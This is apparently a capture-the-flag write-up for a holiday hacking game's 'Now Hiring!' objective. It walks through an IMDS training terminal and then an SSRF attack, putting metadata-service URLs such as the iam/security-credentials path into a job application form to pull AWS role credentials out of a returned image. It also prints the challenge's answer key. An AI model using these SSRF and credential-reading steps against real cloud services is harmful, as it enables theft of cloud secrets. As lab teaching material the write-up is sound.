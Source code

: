 # 10) Now Hiring!

> Difficulty: 3/5
> 
> What is the secret access key for the [Jack Frost Tower job applications server](https://apply.jackfrosttower.com/)? Brave the perils of Jack's bathroom to get hints from Noxious O. D'or.

Hints Provided by Noxious O. D'or:  
- The [AWS documentation for IMDS](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html) is interesting reading.

Answer: **CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX**

---
## Walkthrough

The objective is to find the secret access key found within this [website](https://apply.jackfrosttower.com/).

We can first look for Noxious O. D'or, who is found in _Jack's Restroom_ to get more hints on solving this objective.  
To find Noxious O. D'or: Head to _Frost Tower_ on the right of _The North Pole_ and enter the building. Go top right to the stairs and climb all the way to level 16. From there enter left to reach _Jack's Office_, and enter the first door you see to the left to get to _Jack's Restroom_.

![](./res/noxious_o_dor.png)

---
## Solution(hint)

Noxious O. D'or has some trouble with the IMDS exploration terminal located beside him. If we can help him solve his problem, he will provide us some hints on SSRF which will be useful for solving this objective.

Start up the terminal:

![](./res/hint_pic1.png)

Throughout the game, we can enter `hint` to get clue to the next step. Begin by pressing `Y`.

![](./res/hint_pic2.png)

Enter the following command:  
`ping 169.254.169.254`  
Then enter `CTRL + C` to stop the ping command.

![](./res/hint_pic3.png)

Run `next` to continue:  

![](./res/hint_pic4.png)

Run the following command:  
`curl http://169.254.169.254`  

![](./res/hint_pic5.png)

Access the `latest` endpoint:  
`curl http://169.254.169.254/latest`

![](./res/hint_pic6.png)

Access the `dynamic` endpoint:  
`curl http://169.254.169.254/latest/dynamic`

![](./res/hint_pic7.png)

Access the `instance-identity/document` resource:  
`curl http://169.254.169.254/latest/dynamic/instance-identity/document`

![](./res/hint_pic8.png)

Re-run the previous command with `jq`:  
`curl http://169.254.169.254/latest/dynamic/instance-identity/document | jq`

![](./res/hint_pic9.png)

Run `next` to continue.  

![](./res/hint_pic10.png)

Run the following command:  
`curl http://169.254.169.254/latest/meta-data`

![](./res/hint_pic11.png)

Run the following command:  
`curl http://169.254.169.254/latest/meta-data/public-hostname`

![](./res/hint_pic12.png)

Re-run the previous command with `; echo`:  
`curl http://169.254.169.254/latest/meta-data/public-hostname; echo`

![](./res/hint_pic13.png)

Run the following command:  
`curl http://169.254.169.254/latest/meta-data/iam/security-credentials; echo`

![](./res/hint_pic14.png)

Run the following command:  
`curl http://169.254.169.254/latest/meta-data/iam/security-credentials/elfu-deploy-role; echo`

![](./res/hint_pic15.png)

Run `next` to continue.  

![](./res/hint_pic16.png)

Run the following command:  
`cat gettoken.sh`

![](./res/hint_pic17.png)

Run the following command:  
`source gettoken.sh`

![](./res/hint_pic18.png)

Run the following command:  
`echo $TOKEN`

![](./res/hint_pic19.png)

Run the following command:  
`curl -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/placement/region; echo`

![](./res/hint_pic20.png)

With that, you solve the IMDS terminal and get an achievment.  
Talking to Noxious O. D'or now will provide you the following hints:  
- The [AWS documentation for IMDS](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html) is interesting reading.

---
## Solution

Click on the link provided in the objective, or click [here](https://apply.jackfrosttower.com/), to open the _Jack Frost Tower Job Application_ webpage.  
Click the `Apply now` at the bottom of the page.

![](./res/sol_pic1.png)

populate the fields with some random data. Make sure they are valid data. For e.g `Email address` should put in a random email address of the right format with the `@` sign, else it will throw an error.  
You may skip the Resume upload, but the most important fields here would be the `Name` and `URL to your public NLBI report` fields.  
Learning SSRF and IMDS from the hints provided by Noxious O. D'or, we can try to fill the following information in the `URL to your public NLBI report` field:  
`http://169.254.169.254/latest/meta-data/iam/security-credentials` -- need to find out what role is attached to this server.  
Then click `submit`

![](./res/sol_pic2.png)

No result return.. or is it?  
Notice how there is a broken image in the middle? let's save it.  
Open the Developer Tools (F12), go to `Network` tab, and reload it again.  

![](./res/sol_pic3.png)

Right-click and save that `.jpg` file, then open your terminal, and run `cat` (linux) or `type` (windows) command to check the `.jpg`:  
`cat test.jpg`

![](./res/sol_pic4.png)

We will get the result we want from the image!

Using the same method, go back to the `Apply now` page and this time, complete the `URL to your public NLBI report` field with the following:  
`http://169.254.169.254/latest/meta-data/iam/security-credentials/jf-deploy-role`  
**NOTE: ALSO change the `Name` field to a different one, as the previous `Name` that is being used to generate the first `.jpg` file has been cached, so if you use back the same `Name`, you will not get the new `.jpg` result.**

Repeat the process to save the `.jpg` file again.  
Then, do the same `cat` (linux) or `type` (windows) it from your machine, and you will get the AWS credentials with the secret access key needed:  
`cat test2.jpg`

![](./res/sol_answer.png)

Answer: **CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX**

Enter the secret access key in the objective field, and you will get the achievement and complete the objective!